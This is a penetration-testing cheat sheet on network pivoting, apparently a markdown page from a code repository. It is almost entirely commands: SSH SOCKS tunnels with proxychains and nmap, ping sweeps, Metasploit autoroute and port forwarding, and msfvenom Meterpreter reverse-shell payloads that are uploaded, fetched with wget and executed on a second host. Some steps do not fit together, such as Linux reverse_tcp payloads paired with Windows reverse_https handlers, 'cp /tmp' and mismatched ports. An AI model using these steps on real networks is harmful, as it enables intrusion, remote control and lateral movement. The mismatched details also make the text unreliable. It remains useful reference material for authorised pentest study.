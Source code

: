 # Pivoting

## Proxy SOCKS with SSH

```bash
$ ssh -D 9050 root@victime
$ tail /etc/proxychains.conf
...
[ProxyList]
socks4 	127.0.0.1 9050
$ sudo proxychains nmap -sT -F other_host
```

To be noted:
 - Only TCP Connect Scan is supported by proxychains (default with nmap)
 - sudo is mandatory (RAW socket by proxychains)

## Reverse tunneling from other_host

### On attacker

```bash
$ msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=other_host -f elf -o reverse.bin LPORT=4444
$ scp reverse.bin root@victim:/tmp
$ ssh -D 9050 -R victim_other_ip:4444:0.0.0.0:8000 root@victim
$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
msf6 exploit(multi/handler) > run
```

### On victim

```bash
$ cp /tmp
$ python -m http.server 8765
```

### On other_host

```bash
$ wget http://victim_other_ip:8765/reverse.bin
$ chmod +x reverse.bin
$ ./reverse.bin
```

### Pivoting from Victim

#### Scanning network 

 * From bash: `for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done`
 * From MSF: `msf6 exploit(multi/handler) >  run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/24`

#### Nmap scan:

##### Open SOCKS Proxy

From MSF (outside session)
```
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
msf6 auxiliary(server/socks_proxy) > run
msf6 auxiliary(server/socks_proxy) > jobs
```

##### Routing to our VM

To tell our socks_proxy module to route all the traffic via our Meterpreter session, we can use the post/multi/manage/autoroute module.
Then, we route all traffic through proxychains.

Before autoroute on **Victim**:

```bash
$ route -n

```

From MSF (outside meterpreter session)
```
[msf](Jobs:1 Agents:1) auxiliary(server/socks_proxy) >> use post/multi/manage/autoroute
[msf](Jobs:1 Agents:1) post(multi/manage/autoroute) >> set SESSION 1
[msf](Jobs:1 Agents:1) post(multi/manage/autoroute) >> set SUBNET 172.16.5.0
[msf](Jobs:1 Agents:1) post(multi/manage/autoroute) >> run
```

After autoroute on **Victim**:
```bash
$ route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
0.0.0.0         10.129.0.1      0.0.0.0         UG    0      0        0 ens192
10.129.0.0      0.0.0.0         255.255.0.0     U     0      0        0 ens192
172.16.4.0      0.0.0.0         255.255.254.0   U     0      0        0 ens224
```

##### Nmap scan with proxychains

```bash
$ tail /etc/proxychains4.conf 
[ProxyList]
socks4 	127.0.0.1 9050
$ sudo proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```

#### Ports forwarding

##### Local => Pivot => Victim

Useful to interact with a local post and use local tools.

 * Listen to the port 3300 on **Attacker**
 * Forward all packets to **victim:8080**

From MSF (inside meterpreter session)
```
(Meterpreter 1)(/home/ubuntu) > portfwd add -l 3300 -p 8080 -r victim
```

Interact with service
```bash
$ curl http://localhost:8080/
```

##### Victime => Pivot => Local

Useful to get reverse shell to connect to local meterpreter

From MSF (inside meterpreter session)
```
(Meterpreter 1)(/home/ubuntu) > portfwd add -R -l 8081 -p 1234 -L Attacker
```

A server is started on **victim**:
```
$ netstat -antop | grep 1234
tcp6       0      0 :::1234                 :::*                    LISTEN      1784/backupjob       off (0.00/0/0)
```

On **Attacker**, craft reverse meterpreter which connect to **victim**, upload and execute it onn **other_host**
```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=victim -f exe -o backupscript.exe LPORT=1234
````

On **Attacker** :
```bash
$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8081
msf6 exploit(multi/handler) > run
```




